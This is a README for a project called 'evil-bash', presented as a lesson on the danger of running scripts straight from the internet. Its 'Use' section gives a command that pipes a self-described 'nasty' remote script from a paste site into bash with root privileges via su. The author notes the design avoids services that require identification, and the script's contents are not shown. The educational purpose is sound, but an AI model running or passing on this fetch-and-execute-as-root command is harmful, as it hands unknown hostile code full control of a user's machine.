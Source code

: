 # evil-bash

**FOR EDUCATIONAL PURPOSES ONLY**

A nasty bash script, used as a lesson on why to never run scripts directly from the internet.

I don't take full credit for this as I was inspired by a user on twitter for this one, follow @quad. 

However, I wanted to see if I could accomplish a similar task but without linking myself to a particular website or service, 
that had anything higher than basic authentication (username and password). So no sign up pages, no email verification no, 
personally identifying details being requested. 

I feel that I accomplished this in theory.

### Use:
Simply retrieve the script and run it from the internet directly like below;  
`su -c 'curl http://ix.io/1iVu.sh | bash'`  
*always append .sh to the url so it fetchs the contents as a shell script*

### Caution:
I am not responsible for the use of this script in any way shape or form. This script was designed for research
and **educational purposes only.** 
*You've been warned.*

### License:
http://www.wtfpl.net/txt/copying/
